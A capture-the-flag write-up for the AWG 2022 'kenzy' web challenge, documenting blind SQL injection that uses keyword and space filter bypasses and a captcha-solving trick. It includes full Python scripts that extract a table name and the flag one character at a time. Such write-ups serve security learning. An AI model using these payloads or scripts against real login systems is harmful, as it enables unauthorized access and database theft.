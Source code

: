 ```yaml
---
title: "kenzy challenge Writeup"
header:
  teaser: "/assets/images/kenzy/logo.jpg"
tags: ["CTF", "sql-injection"]
date: 2022-08-06T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


|             |                                              |
| ----------- | -------------------------------------------- |
| CTF name    | [AWG 2022](https://www.ascyberwargames.com/) |
| challenge   | kenzy                                        |
| category    | web                                          |
| about       | SQL injection                                |
| description | captcha is not that secure                   |
| points      | 900                                          |
| team        | [0xCha0s](https://ctftime.org/team/168238)   |

## Discovery

we are introduced with this page which takes username ,password and the Captcha

![error](/assets/images/kenzy/20220806020216.png)

If we check the source code we can notice this comment

```cmd
        <!-- Username =====> admin -->
```

we can also find the endpoint which generates the captcha each time we request it different captcha is assigned

```cmd
http://34.175.249.72:60001/scripts/captcha.php
```

Let's check the application by submitting the admin as a username and any password with a valid captcha

![error](/assets/images/kenzy/20220806021154.png)

It returns an `invalid username or password` because we don't really know the correct password and default credentials don't work

as we want to be able to login without password , we should think of SQL injection.

![error](/assets/images/kenzy/20220806021637.png)

trying a basic payload at the password we can see this result which is a great hint for SQLi , we should be in the correct path but this page doesn't reveal much.

![error](/assets/images/kenzy/20220806021712.png)

Trying some payloads in the password filed wasn't really helpful as when we tried `admin' OR 1=1#` it returns same response for `1=1` and `1=2` . so it doesn't work really well. we can take a look at the username field.

Trying `username=admin' OR 1=1#` we got this response

```cmd
 {"Username":"admin'1=1#","status":"statement error"}
```

we can see the **OR** is removed and the spaces as well ! , same thing with the **AND**

-> Bypass filters :

The most famous bypass for the spaces filter is replacing it with `/**/` , and we can try use `OORR` instead of `OR` so if `OR` is removed from `OORR` we got our `OR` if filters are not so restricted . same for `AND` we can use `AANDND`

```cmd
username=admin'/**/AANDND/**/1=1#
```

and we got the wished results

![error](/assets/images/kenzy/20220806022447.png)

To make sure we have a valid Blind SQL injection we should be able to control input to trigger 2 different responses one for the True case and The False one.

Trying same payload with `1=2` to be

```cmd
username=admin'/**/AANDND/**/1=2#
```

we will get this response , so we can control this input !

```json
{
  "Username": "admin'/**/AND/**/1=2#",
  "status": "Invalid username or password"
}
```

it will be a tedious process to write the captcha each time with each request , specially blind sqli will issue a lot of requests so we need to build some sort of python script to automate this process

## Exploitation

First we need to parse the captcha somehow , we can try issue a request to `/scripts/captcha.php` to see if the response contains the captcha as text.

![error](/assets/images/kenzy/20220806023237.png)

and indeed it sends the captcha base64 encoded , so we can parse it easily and get the value .

```py
import requests
import base64

s = requests.Session()
url = "http://34.175.249.72:60001/scripts/captcha.php"
r = s.get(url)
captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
print(captcha_decode)
```

This code will parse the captcha and get us the decoded value which we need during the login process. now we need to send another request to the login page to see the response

```py
url2 = 'http://34.175.249.72:60001/index.php'
payload = f"admin' AND 1=1#".replace(' ','/**/').replace('AND','ANANDD')
data = {'username' :payload,
	    'password': "admin"  ,
	    'captcha' : captcha_decode ,
	    'send' :'Send'
		}
r2 = s.post(url2 , data=data )
print(r2.text)
```

assembling the 2 code snippets above we will see the exploit works as expected indeed , now we can start constructing our query to retrieve table name and the flag content.

```py
import requests
import base64
from urllib.parse import quote

table=""
counter = 1

flag = True
while flag :
    s = requests.Session()
    flag = False
    for i in range (32,126) :
        url = "http://34.175.249.72:60001/scripts/captcha.php"
        r = s.get(url)
        captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
        captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
        url2 = 'http://34.175.249.72:60001/index.php'
        payload = f"admin' AND {i}=ascii(substr((SELECT table_name FROM information_schema.tables where table_schema=database() limit 1),{counter},1))#".replace(' ','/**/').replace('AND','ANANDD')

        data = {

        'username' :payload,
        'password': "admin"  ,
        'captcha' : captcha_decode ,
        'send' :'Send'
        }

        r2 = s.post(url2 , data=data )
        print(f"{table+chr(i)}")
        if "Treasures" in r2.text :
            table +=chr(i)
            flag = True
            break
    counter +=1
```

we have just made 2 loops , the Flag variable is important as it will be the factor to stop the code . basically it will allow the while loop to keep iterating if we found a letter in the insider loop but if it did iterate through all characters and doesn't found a valid one it will not loop again , it will exit.

the query has 2 variables the counter and the ascii representation of the desirable letter .

Running the code above we got the table name is `solve` .

## Getting the Flag

will use same approach to get the flag content , we can guess the column is named flag and we can verify that by using this payload

```py
payload = "admin' AND 'f'=substr((select column_name from information_schema.columns WHERE table_name='solve' limit 1),1,1)#".replace(' ','/**/').replace('AND','ANANDD')
```

and will find `f` is valid as the first character in the `column_name` , we can continue until we find column name is `flag` indeed

now we can start ask for each character in our flag until we get the last character which should be `}`

```py
import requests
import base64
from urllib.parse import quote

flag= "ASCWG{"
counter = 7 # start after ASCWG{
while not flag.endswith("}") :
	s = requests.Session()
	for i in range (31,126) :
		url = "http://34.175.249.72:60001/scripts/captcha.php"
		r = s.get(url)
		captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
		captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
		#print(captcha_decode)
		url2 = 'http://34.175.249.72:60001/index.php'
		payload = f"admin' AND {i}=ascii(substr((select flag from solve limit 1),{counter},1))#".replace(' ','/**/').replace('AND','ANANDD')
		data = {
	    'username' :payload,
	    'password': "admin"  ,
	    'captcha' : captcha_decode ,
	    'send' :'Send'
		}
		r2 = s.post(url2 , data=data )
		#print(r2.text)
		print(f"{flag+chr(i)}")
		if "Treasures" in r2.text :
			flag +=chr(i)
			break
	counter +=1
```

Running the script now

![error](/assets/images/kenzy/20220806025633.png)

and after some time we will get our flag eventually which is

```cmd
ASCWG{23fsdc$@#EAScasq12_hard}
```

![error](https://c.tenor.com/n-NpYkvi3y4AAAAC/%D8%A8%D9%87%D8%AC%D8%AA%D8%B5%D8%A7%D8%A8%D8%B1-bahgat-saber.gif)
